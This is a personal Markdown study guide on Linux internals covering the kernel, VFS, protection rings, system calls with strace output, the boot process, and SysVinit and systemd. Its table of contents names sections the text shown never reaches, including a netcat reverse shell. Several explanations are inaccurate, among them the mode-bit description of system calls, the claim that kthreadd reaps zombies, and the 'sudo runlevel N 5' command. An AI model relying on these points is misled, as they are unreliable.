- [Embedded Linux Knowledge Base](#embedded-linux-knowledge-base)
  - [What Is Linux Internals/Plumbing?](#what-is-linux-internalsplumbing)
  - [Core Components of Linux Plumbing](#core-components-of-linux-plumbing)
    - [1. Kernel](#1-kernel)
      - [Linux Kernel Architecture](#linux-kernel-architecture)
    - [2.Virtual filesystems - Shim layer](#2virtual-filesystems---shim-layer)
      - [What is VFS?](#what-is-vfs)
      - [Why VFS layer?](#why-vfs-layer)
      - [How VFS works](#how-vfs-works)
      - [Flow](#flow)
    - [3. Linux protection rings](#3-linux-protection-rings)
      - [Problem:](#problem)
      - [Solution:](#solution)
      - [What is Protection Rings](#what-is-protection-rings)
    - [4.System calls](#4system-calls)
      - [SYSCALL Mechanism](#syscall-mechanism)
    - [5. Boot Process (Simplified Plumbing Flow)](#5-boot-process-simplified-plumbing-flow)
      - [1. Power On](#1-power-on)
      - [2. BIOS/UEFI Initialization](#2-biosuefi-initialization)
        - [2.1 BIOS / UEFI:](#21-bios--uefi)
        - [2.2 BIOS vs UEFI:](#22-bios-vs-uefi)
        - [2.2. POST (Power-On Self-Test)](#22-post-power-on-self-test)
      - [3. Finding the boot loader](#3-finding-the-boot-loader)
      - [4. Bootloader Stage](#4-bootloader-stage)
        - [4.1 Bootloader Responsibilities:](#41-bootloader-responsibilities)
        - [4.2 Common Bootloaders:](#42-common-bootloaders)
      - [5. Kernel Initialization](#5-kernel-initialization)
      - [6. `init` Process (PID 1)](#6-init-process-pid-1)
      - [6.1. systemd – Modern Init System](#61-systemd--modern-init-system)
        - [6.1.1 Key Tasks:](#611-key-tasks)
        - [6.1.2 Targets:](#612-targets)
      - [Summary: Boot Sequence Overview](#summary-boot-sequence-overview)
    - [6. Init Systems](#6-init-systems)
      - [6.1 SysVinit](#61-sysvinit)
        - [PID 1 – The Init Process](#pid-1--the-init-process)
        - [Process Management Terms](#process-management-terms)
        - [SysVinit Overview](#sysvinit-overview)
        - [Runlevels:](#runlevels)
        - [SysVinit Process Flow](#sysvinit-process-flow)
        - [Limitations of SysVinit](#limitations-of-sysvinit)
        - [Alternatives to SysVinit](#alternatives-to-sysvinit)
      - [6.2 Upstart](#62-upstart)
      - [6.3 Systemd](#63-systemd)
        - [Theoretical](#theoretical)
        - [Practical](#practical)
          - [Most important/Basic commands in Systemd](#most-importantbasic-commands-in-systemd)
          - [Units directories](#units-directories)
          - [Units file content](#units-file-content)
    - [7. Inter-Process Communication (IPC)](#7-inter-process-communication-ipc)
      - [Pipes (`|`)](#pipes-)
        - [Controlling pipe line speed -\> pipeline viewer (pv)](#controlling-pipe-line-speed---pipeline-viewer-pv)
        - [Pipeline buffer](#pipeline-buffer)
          - [1-simple file copy with progress](#1-simple-file-copy-with-progress)
          - [2-Buffer data between two commands](#2-buffer-data-between-two-commands)
          - [3-send data over the network(TCP)](#3-send-data-over-the-networktcp)
          - [4- Throttled transfer](#4--throttled-transfer)
        - [tee command](#tee-command)
      - [Named Pipes (FIFOs)](#named-pipes-fifos)
        - [1st : Make FIFO file](#1st--make-fifo-file)
        - [2nd : assign a utility to the FIFO file](#2nd--assign-a-utility-to-the-fifo-file)
        - [3rd : in a new terminal](#3rd--in-a-new-terminal)
      - [Shared Memory](#shared-memory)
      - [Message Queues](#message-queues)
      - [Semaphores](#semaphores)
      - [Signals](#signals)
      - [Sockets](#sockets)
    - [8. Devices  and Device Management](#8-devices--and-device-management)
      - [File system](#file-system)
        - [Virtual files](#virtual-files)
          - [/proc](#proc)
          - [/sys - Stable Application Binary Interface (ABI)](#sys---stable-application-binary-interface-abi)
          - [/dev - devices](#dev---devices)
          - [/run](#run)
          - [/tmp](#tmp)
          - [/mnt](#mnt)
          - [/media](#media)
        - [Static System Directories](#static-system-directories)
          - [/Home](#home)
          - [/USR - Unix system resources](#usr---unix-system-resources)
          - [| ---\> /BIN](#-----bin)
          - [|---\> /SBIN](#----sbin)
          - [|---\>/Local](#---local)
          - [/BIN - binaries](#bin---binaries)
          - [/SBIN - system binaries](#sbin---system-binaries)
          - [/LIB - Library](#lib---library)
          - [/LIB64](#lib64)
          - [/ETC - Editable text configuration](#etc---editable-text-configuration)
          - [/OPT - optional](#opt---optional)
          - [/VAR - variables](#var---variables)
          - [/TMP - Temp](#tmp---temp)
          - [/BOOT](#boot)
          - [/root](#root)
          - [/srv](#srv)
          - [/lost+found](#lostfound)
        - [Filesystem types:](#filesystem-types)
      - [Partitioning](#partitioning)
        - [Partitioning types](#partitioning-types)
        - [Formatting block devices](#formatting-block-devices)
      - [RAID - Redundant Array of Independent Disks](#raid---redundant-array-of-independent-disks)
        - [**Striping:**](#striping)
        - [**Parity:**](#parity)
      - [LVM - Logical Volume Management](#lvm---logical-volume-management)
        - [What is LVM?](#what-is-lvm)
        - [How It Works](#how-it-works)
        - [Why Use LVM?](#why-use-lvm)
      - [Mounting storage:](#mounting-storage)
        - [Categories of Mounting Technologies](#categories-of-mounting-technologies)
          - [1.Manual Mounting (Traditional)](#1manual-mounting-traditional)
          - [2.Virtual Filesystem Mounting](#2virtual-filesystem-mounting)
          - [3.Filesystem Types](#3filesystem-types)
          - [4.Automounting Systems](#4automounting-systems)
          - [5.Network \& Remote Mounting](#5network--remote-mounting)
      - [PCI and USB](#pci-and-usb)
        - [PCI](#pci)
          - [What PCI Does](#what-pci-does)
          - [Why PCI Was Developed](#why-pci-was-developed)
          - [How PCI Works (High Level)](#how-pci-works-high-level)
        - [USB](#usb)
    - [9. System Libraries](#9-system-libraries)
      - [glibc – Core C library - GNU C library](#glibc--core-c-library---gnu-c-library)
      - [libpthread – Threading](#libpthread--threading)
      - [libdl – Dynamic linking library](#libdl--dynamic-linking-library)
    - [10. Shells and Terminals](#10-shells-and-terminals)
      - [Shells](#shells)
        - [input shell stream](#input-shell-stream)
          - [1. Interactive Input (Default stdin)](#1-interactive-input-default-stdin)
          - [2.Redirecting Input from a File](#2redirecting-input-from-a-file)
          - [3. Using a Here Document (stdin block)](#3-using-a-here-document-stdin-block)
          - [4.Piping Output to Another Command’s stdin](#4piping-output-to-another-commands-stdin)
          - [5.string input](#5string-input)
        - [output shell stream](#output-shell-stream)
          - [🔄 1. Two Output Streams](#-1-two-output-streams)
          - [2. Redirect One into the Other](#2-redirect-one-into-the-other)
          - [3. **`>` is Shorthand for `1>`**](#3--is-shorthand-for-1)
          - [4. **Send Output to Trash with `/dev/null`**](#4-send-output-to-trash-with-devnull)
          - [5. **Overwrite vs. Append**](#5-overwrite-vs-append)
      - [Terminals](#terminals)
    - [11. Logging ,  sysd-Journald, and daemon](#11-logging---sysd-journald-and-daemon)
      - [Logging](#logging)
      - [Log daemon (rsyslog)](#log-daemon-rsyslog)
      - [Systemd journal](#systemd-journal)
    - [12. Networking Stack](#12-networking-stack)
      - [Networking IP](#networking-ip)
        - [IP4 Layer: IP address](#ip4-layer-ip-address)
        - [IPv6 Layer: IP address](#ipv6-layer-ip-address)
      - [Networking Ports](#networking-ports)
        - [TCP/UDP Layer: Port Numbers](#tcpudp-layer-port-numbers)
      - [Sockets](#sockets-1)
        - [Socket history](#socket-history)
        - [What is socket](#what-is-socket)
        - [Address Byte Order](#address-byte-order)
      - [Network layer :](#network-layer-)
        - [TCP Protocol - SOCK\_STREAM](#tcp-protocol---sock_stream)
        - [UDP protocol - SOCK\_DGRAM](#udp-protocol---sock_dgram)
      - [Network Application model](#network-application-model)
        - [client - server model](#client---server-model)
      - [Practical examples](#practical-examples)
        - [netcat command](#netcat-command)
          - [1. Connect to a Server (Client Mode)](#1-connect-to-a-server-client-mode)
          - [2. **Start a Listener (Server Mode)**](#2-start-a-listener-server-mode)
          - [3. **File Transfer with netcat**](#3-file-transfer-with-netcat)
          - [4. **Simple Chat (2-way communication)**](#4-simple-chat-2-way-communication)
          - [5. **Port Scanning**](#5-port-scanning)
          - [6. **Banner Grabbing (Service Info)**](#6-banner-grabbing-service-info)
          - [🧨 Reverse Shell with netcat (for educational/testing use only!)](#-reverse-shell-with-netcat-for-educationaltesting-use-only)
        - [socat command](#socat-command)
          - [1.Simple TCP Client](#1simple-tcp-client)
          - [2.Start a TCP Server](#2start-a-tcp-server)
          - [3.TCP Chat (Bidirectional)](#3tcp-chat-bidirectional)
          - [4.Forward Local Port to Remote Host](#4forward-local-port-to-remote-host)
          - [5.Transfer a File Over Network](#5transfer-a-file-over-network)
          - [6.Create a Serial to TCP Bridge](#6create-a-serial-to-tcp-bridge)
          - [7.Redirect a UNIX Domain Socket to TCP](#7redirect-a-unix-domain-socket-to-tcp)
        - [inetd / xinetd / systemD listen :](#inetd--xinetd--systemd-listen-)
          - [1.`inetd` (Internet Service Daemon)](#1inetd-internet-service-daemon)
          - [2.`xinetd` (Extended Internet Daemon)](#2xinetd-extended-internet-daemon)
          - [3. `systemd` Socket Activation](#3-systemd-socket-activation)
        - [NGINX – High-Performance Web Server \& Reverse Proxy](#nginx--high-performance-web-server--reverse-proxy)
        - [HAProxy – Advanced TCP/HTTP Load Balancer](#haproxy--advanced-tcphttp-load-balancer)
        - [HAProxy HTTP Load Balancing Example](#haproxy-http-load-balancing-example)
        - [Telnet](#telnet)
      - [openssl command :](#openssl-command-)
      - [IRC command :](#irc-command-)
    - [13. Users, Groups, and Permissions](#13-users-groups-and-permissions)
      - [File Permissions: `rwx`](#file-permissions-rwx)
        - [Changing Permissions](#changing-permissions)
        - [Ownership](#ownership)
          - [`chown`: Change owner](#chown-change-owner)
          - [`chgrp`: Change group](#chgrp-change-group)
        - [Special Permissions](#special-permissions)
          - [SUID (Set User ID)](#suid-set-user-id)
          - [SGID (Set Group ID)](#sgid-set-group-id)
          - [Sticky Bit](#sticky-bit)
        - [Default Permissions](#default-permissions)
          - [`umask`: Default permission mask](#umask-default-permission-mask)
      - [Advanced: ACLs (Access Control Lists)](#advanced-acls-access-control-lists)
      - [`lsattr`: List File Attributes](#lsattr-list-file-attributes)
        - [`chattr`: Change File Attributes](#chattr-change-file-attributes)
  - [🧰 Key Plumbing Tools](#-key-plumbing-tools)
  - [Resources used for this file](#resources-used-for-this-file)
  - [Further Learning Resources](#further-learning-resources)

# Embedded Linux Knowledge Base

> **Status:** Living document
>
> This document represents my current knowledge, not everything I have ever studied.
>
> **Rule:** If it is not represented here, it should not be assumed that I know it.
>
> Knowledge is written in my own understanding and terminology. Source material is not copied merely for completeness.
>
> This document is continuously refined through:
> - Bootlin study
> - practical work
> - questioning
> - interview preparation
> - correcting misunderstandings

## What Is Linux Internals/Plumbing?

Linux plumbing refers to:

- **System libraries**
- **Device management**
- **System calls**
- **Boot processes**
- **Inter-process communication**
- **System daemons and services**
- **Low-level command-line tools**

These components make up the **plumbing** that supports high-level applications and the graphical user interface.

------

## Core Components of Linux Plumbing

### 1. Kernel


- **Kernel Design**
  - **Most Operating Systems are monolithic including Linux** 
    - The operating system is a single executable file
    
    - All of the operating system runs in system space
    
  - **The kernel binary (image) contains**

    - Process Management

    - Memory Management

    - File System

    - Network Interface

    - Inter-Process Communication

  - **The heart of Linux. Handles:**

    - Process management scheduler

    - Memory management

    - Device drivers

    - Virtual file system

    - Network interface

#### Linux Kernel Architecture 




 

### 2.Virtual filesystems - Shim layer

#### What is VFS?

- the virtual file system is an abstraction layer in the kernel
- it's what made it possible for "everything is a file" philosophy of originally UNIX
- and adopted by Linux
- Provides a uniform API (**open**(), **read**(), **write**(), **close**()) to access different file systems 
- Not a file system itself; sits above them
- VFS calls the actual filesystem-specific functions under the hood (ext4, XFS, etc.).
- you can create your own virtual file and allow Linux to access your new file system

#### Why VFS layer?

- they wanted a way to implement new files over time, and to not lock Linux, so a **modular design**
- promotes code reuse

#### How VFS works


- this is just an example
- there are more types of constructs like pipes, dmesg, etc.
- **VFS** sits between the user space application and the implementers code which defines the actual files system 
- **VFS** uses the implementers code to reach device driver and the device driver can access the device itself.
- **VFS** uses memory access methods (accessors).
- the file system can worry about how to implements the `open()`, `read()`, `write()`, `close()`
- VFS can worry about the SYSCALL and where to direct them

#### Flow 

🗺️ **Linux File I/O Call Flow (User Space to Device)**

🧑‍💻 **User Space**

- 💡 Where applications live (e.g., C programs).
- Applications use standard I/O libraries like `stdio.h` or `fcntl.h` to call functions:
  - `open()`, `read()`, `write()`, `close()`

🔁 **System Call Interface**

- These functions eventually trigger system calls (traps into kernel mode).
- Acts as the gateway from user space to kernel space.

🧠 **Kernel Space**

📁 **Virtual File System (VFS)**

- The first kernel component to handle file system requests.
- Gets the filename from the system call.
- It determines which actual file system (e.g., ext4, xfs, etc.) should handle the request.

⚙️ **File System Driver**

- VFS forwards the request to the appropriate file system’s implementation.
  - For example, if it's ext4: VFS → ext4 driver.
- File system driver interprets the request (e.g., reads inode, fetches data block location).

💾 **Device Driver**

- Finally, the file system driver uses a device driver to physically interact with storage hardware.
  - SSD, NAND flash, or HDD (rotational media)
- Device driver sends read/write commands to the hardware

**Summary Flow**

```text
[C App] → [I/O Lib] → [System Call] → [VFS] → [File System Driver] → [Device Driver] → [Disk]
```

--------

### 3. Linux protection rings

in the old days 1950s and 60s we had a system supervisory programs which were not part of the OS.

they can not protect themselves from an application,the build in protection only allowed you to run one job at a time.

- Its job was incredibly basic: it loaded a program from a punch card or tape into memory, handed over complete control of the entire machine to that program, and waited for it to finish.
- **The Fatal Flaw:** The supervisor ran in the exact same memory space as the application. It had **no protection hardware**.
- If an application had a bug and wrote data to the wrong memory address, it wouldn't just crash itself—it would **overwrite the supervisor's own code** in memory.
- Because the machine could only run **one job at a time**, if the supervisor got destroyed, the whole computer froze.

if it did go down -> you make a warm IPL (intial program load). -> This meant pushing a physical button or entering a command that forced the computer to re-read the supervisor code from a clean source—usually a magnetic drum, tape, or a reserved section of a hard drive—back into memory, without fully powering down the machine (which would have been a "Cold IPL").

#### Problem:

we need to protect the OS from the application, so far if an application crashes it might take the system supervisor with it.

#### Solution:

protection rings -> a different lands for different people, **Kernel land** and **Application land**

also known as **User space** and **Kernel space**

#### What is Protection Rings

Multics OS were the 1st to introduce this idea, they had 64 rings of protection, each one with different privileges and different security, protection layer.

- the inner most ring -> highest level of privileges -> the Kernel.
- every ring in between -> dependent upon if the application was granted this ring -> with multiple ring levels you can have application that can see application in the ring of lower ring level but not vice versa.
- the outer most ring -> lowest level of privileges -> the user application.


in some other diagrams you can see that they draw the Shell in it's own layer, but the shell is just an application in the user space, so technically it does not have it's own space.


**Intel Architecture of protection ring**


**Linux standard protection ring**


- Linux only uses Ring 0 and Ring 3
- The device Drivers ( s) are inside the kernel 
  - demon -> device driver
  - deamon -> system service, runs in user land, usually managed by external process

---------------

### 4.System calls

- a set of interfaces to interact with hardware
- Frees the user from learning low level programming languages
- increase system security
- increase portability of programs

#### SYSCALL Mechanism


- User application requisites `open() ` function which is SYSCALL function.
- SYSCALL execute a trap
  - Trap is a SW interrupt 
- System call interface acts as a bridge between the User mode and Kernel mode.
- system call interface requests the `open` function from the Kernel.
- the Kernel will check upon the `mode bit`
  - if **ZERO** then the process **was not executed.**
  - if **1** then the process **was already executed.**
- the Kernel will look up for any dependencies (archetrictural dependency or library).
- the dependency is loaded.
- the open function is executed in the kernel mode and does it's stuff 
- when finished it sets the mode bit = 1
- then returns to the system call interface and the user application is notified that the job is done.

**how to watch the system call being called**

```bash
strace <any command>
```

- `strace` (system call trace): traces the execution of another program, listing any system calls the programs makes and any signal it receives.

**Example**

input

```bash
hostname
```

output

```
aly mahmoud
```

input

```bash
 strace hostname
```

Sample Output (annotated for learning):

```
execve("/usr/bin/hostname", ["hostname"], 0x7ffe2a2d32b0 /* 46 vars */) = 0
brk(NULL)                               = 0x55cb57fc0000
arch_prctl(0x3001 /* ARCH_??? */, 0x7fff2fdb52b0) = -1 EINVAL (Invalid argument)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=95234, ...}) = 0
mmap(NULL, 95234, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7f80c10a8000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
...
gethostname("my-machine", 64)           = 0
write(1, "my-machine\n", 11)            = 11
exit_group(0)                           = 0
```

🔍 Breakdown:

- execve(...) — starts the hostname binary
- openat(...) — opens libraries and config files
- gethostname(...) — actually gets the hostname
- write(...) — writes the hostname to stdout
- exit_group(0) — exits successfully

**SYSCALL Examples**

- Exit
- Wait
- Read
- Write
- Open
- Close
- Waitpid
- Getpid
- Sync
- Nice
- Kill

> Commands: `uname -r`, `dmesg`, `lsmod`, `modprobe`, `sysctl`

------

### 5. Boot Process (Simplified Plumbing Flow)

Linux Boot Process – What Happens When You Press the Power Button?



#### 1. Power On

- User presses the **power button** to start the system.
- This signals the motherboard to begin the boot process.

#### 2. BIOS/UEFI Initialization

##### 2.1 BIOS / UEFI:

- Firmware that initializes hardware.
- Prepares components like:
  - Keyboard
  - Display
  - Disk drives

##### 2.2 BIOS vs UEFI:

| Feature              | BIOS (Legacy)                         | UEFI (Modern)                                                |
| -------------------- | ------------------------------------- | ------------------------------------------------------------ |
| **Disk support**     | [MBR](Master Boot Record) (2TB limit) | [GPT]( [GUID](Globally unique idenfier) Partition table) (9 Zeta byte limit) |
| **Boot speed**       | Slower                                | Faster                                                       |
| **Security**         | Less secure                           | Supports Secure Boot                                         |
| **Storage location** | MBR boot sector                       | EFI System Partition (`.efi` files)                          |

##### 2.2. POST (Power-On Self-Test)

- Performs diagnostic tests to verify hardware functionality(**Processor, Memory, Storage, Keyboard, System Timer**)
- If errors are found, error messages are displayed (e.g., missing keyboard).
- If successful, moves to next stage: finding bootloader.



#### 3. Finding the boot loader

- **BIOS** runs POST and loads the 
- **MBR** finds the **active (bootable) partition**.
- MBR loads and runs the [**VBR**](**Volume Boot Record** ) of that partition.

- the **UEFI** does not need to search for the active bootable partition as it does have a system partition that is FAT32 system partition 

#### 4. Bootloader Stage

- BIOS/UEFI uses **boot order** to locate bootable media (HDD, USB, CD, etc.).
- Bootloader is located in:
  - **BIOS**: Master Boot Record (MBR)
    - 
  - **UEFI**: .efi System Partition
    - 

##### 4.1 Bootloader Responsibilities:

1. **Locate** the OS kernel on disk.
2. **Load** the kernel into memory.
3. **Start** executing kernel code.

##### 4.2 Common Bootloaders:

| Bootloader | Notes                                                     |
| ---------- | --------------------------------------------------------- |
| LILO       | Outdated, rarely used today                               |
| GRUB2      | Most common, supports multiboot, themes, advanced options |

#### 5. Kernel Initialization

- Bootloader passes control to the **Linux kernel**.
- Kernel decompresses itself into memory.
- Initializes:
  - Device drivers
  - Kernel modules
  - Hardware detection

#### 6. `init` Process (PID 1)

- First user-space process started by kernel.
- you will find the `init` symbolically link to `/lib/systemd/systemd`
- Historically: `SysVinit`, `Upstart`
- **Modern systems**: `Systemd`

#### 6.1. systemd – Modern Init System

##### 6.1.1 Key Tasks:

- Loads missing drivers.
- Mounts all file systems.
- Starts background services (networking, sound, power management).
- Manages logins.
- Starts the graphical environment (if applicable).
- Cleans up teriminated processes

##### 6.1.2 Targets:

- Define boot mode (like old runlevels):
  - `multi-user.target` → text mode
  - `graphical.target` → GUI session

#### Summary: Boot Sequence Overview



> From power-on to fully loaded Linux environment, `systemd` finishes what the kernel starts.

1. **BIOS/UEFI** – Firmware initializes hardware
2. **Bootloader (GRUB, LILO)** – Loads the kernel
3. **Kernel** – Initializes hardware, mounts rootfs
4. **Init System (systemd)** – Starts services and user space
5. **Login shell** – User interacts with the system

------

### 6. Init Systems

#### 6.1 SysVinit 

-  Traditional init system using scripts in `/etc/init.d/`

- These initialize the system and manage services.
- It's the parent of all the processes in the system
- it schedule all other process on that system

##### PID 1 – The Init Process

- First user-space process.
- Always PID 1.
- If it fails, kernel restarts it.
- Usually symlinked to `/sbin/init`.

**Responsibilities:**

1. Final stages of boot (mounting filesystems, device discovery).
2. Set up **system-wide environment variables**.
3. Start login services and background daemons.
4. Reap orphaned/zombie processes (before `systemd`, this was done by `init`; now handled by `kthreadd`).

##### Process Management Terms

- **Orphan process**: Parent dies, child continues; previously reparented to `init`.
- **Zombie process**: Child ends but parent hasn't read its exit status; process table retains entry.
- **Zombie process**: Kernel process to clean up zombie entries (called "reaping").

##### SysVinit Overview

- Based on Unix System V `init`.
- Sequential (non-parallel) service execution.
- No dependency or conflict resolution.
- Uses **runlevels** to define system states.

##### Runlevels:

| Runlevel       | Description                                            |
| -------------- | ------------------------------------------------------ |
| 0              | Halt                                                   |
| 1 (S/s)        | Single-user mode (maintenance mode)                    |
| 2 (convention) | Multi-user, no NFS/networking, no GUI                  |
| 3 (convention) | Multi-user, with NFS, networking, no GUI -> text login |
| 4 (convention) | Undefined/custom - testing                             |
| 5 (convention) | Multi-user, networking, with GUI                       |
| 6              | Reboot                                                 |

Changing Runlevels cammands:

- `sudo runlevel N 5` 
-  `sudo telinit 5` 

##### SysVinit Process Flow

1. Reads `/etc/inittab`.
2. Calls `rc.sysinit` with the target runlevel-> initialization, setting hostname, check file system and file parathions 
3. Executes scripts in `/etc/rc.d/rcX.d` (X = runlevel).
   - Scripts prefixed by:
     - `SXXname`: Start script.
     - `KXXname`: Kill script.
   - Numbers (XX) indicate order.
   - Scripts run in lexicographic order (not parallel).

> Note: Attempts at grouping startup by number (e.g., S00, K00) were cosmetic only—no real parallelization.

##### Limitations of SysVinit

- Slow boot (serial execution).
- Not aware of service dependencies.
- Designed for stable mainframe-like environments, not dynamic modern systems.
- Poor fit for containers, virtualization, and modern networked/cloud systems 

##### Alternatives to SysVinit

| Init System | Notes                                                        |
| ----------- | ------------------------------------------------------------ |
| **OpenRC**  | Added parallelization; used in Alpine, Gentoo, etc.          |
| **Upstart** | Transitional init system used in Ubuntu (2006–2014).         |
| **systemd** | Modern replacement; dependency-aware, parallel, socket-activated, modular. |

 *GenToo Wiki has a full comparison of available init systems.*

> Commands: `systemctl status`, `systemctl list-units`, `ps -ef`

------

#### 6.2 Upstart

Event-based, used in older Ubuntu versions say again


-----

#### 6.3 Systemd 

##### Theoretical 

- systemd labels services, mounting as units not levels like sysVinit

- Units can be run with dependency or conflict with other unit

- units are only started after the depends on unit have been started

- each unit is configured via a text file instead of a shell script

- systemd targets are the equviliant of sysVinit levels

  - target is a group of units

  - | Target name       | Equvilant in sysVinit |
    | ----------------- | --------------------- |
    | Power off.target  | Level 0               |
    | Rescue.target     | Level 1               |
    | Multi-user.target | Level 3               |
    | Graphical.target  | Level 5               |
    | Reboot.target     | Level 6               |

    there are more targets than this some like bluetooth.target which startup when a bluetooth device is detected

- **Systemd pros**

  - Faster Boot Process
  - More flexible to adapt
  - Standardization of configuration files
  - Simple interface for end-users to interact with fancy additional feature

